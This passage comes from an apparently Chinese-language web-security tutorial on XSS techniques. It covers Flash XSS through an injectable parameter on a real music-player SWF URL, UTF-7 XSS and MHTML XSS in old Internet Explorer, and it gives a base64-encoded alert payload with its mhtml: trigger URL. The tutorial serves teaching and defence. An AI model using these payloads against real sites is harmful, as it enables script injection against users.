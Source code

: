 * getURL/navigateToURL  访问跳转
* ExternalInterface.call 调用js函数

前者是访问跳转到指定URL，后者则是调用页面中JS函数，比如上面的代码就会导致弹框。

```
http://img.xiami.net/res/kuang/xiamikuang5tab.swf?rname=%E6%96%B0%E6%AD%8C%3C%3E&dataUrl=http://www.0xsafe.org/0.xml&ccnum=300&recordNum=30
```

这是之前虾米的一个播放器页面，然后分享功能可以通过网址里的参数直接控制一些值，于是就存在了可控的注入点，通过构造Payload可以触发，当点击进行分享的时候就会触发XSS。

这里也有篇介绍Flash XSS的文章：[https://www.secpulse.com/archives/44299.html](https://www.secpulse.com/archives/44299.html)，大家感兴趣的也可以看下。

#### &#x20;UTF-7 XSS <a href="#utf-7-xss" id="utf-7-xss"></a>

在以下两种场景可以在低版本IE浏览器触发UTF-7 XSS：

* meta未指定编码，特定版本IE发现内容存在UTF-7编码内容，则自动以UTF-7解码处理
* 指定编码为UTF-7

UTF-7 XSS与普通XSS的区别就在于构造的Payload是UTF-7编码的，而基于上面两个场景的特性，低版本IE浏览器会自动解码，于是就可以产生XSS。

上图中，a变量的值就是UTF-7 XSS 的Payload，实际上是正常Payload UTF-7编码后的结果。

#### &#x20;MHTML XSS <a href="#mhtml-xss" id="mhtml-xss"></a>

MHTML XSS 同样只存在于低版本的IE中，MHTML是MIME HTML (Multipurpose Internet Mail Extension HTML，聚合超文本标记语言)的缩写，把一个多附件（如图片，flash动画等）的网页内容都保存到单一档案的标准，是类似HTTP的协议，在IE中，当嵌入资源的URL的协议为MHTML 时，IE将调用MHTML Protocol Handler，把该资源当作MHTML格式文件解析处理。

x.html 内容：

```markup
Content-Type:multipart/related;boundary="x"
--x
Content-Location:xss
Content-Transfer-Encoding:base64
PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
--x--
```

其中

```markup
PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg== BASE64解码:<script>alert(1)</script>
```

通过特定的访问方式：

```markup
mhtml:www.x.com/a.html!xss
```

就可以触发XSS，具体更多内容大家也可以自己搜索看看。

#### &#x20;CSS XSS <a href="#css-xss" id="css-xss"></a>
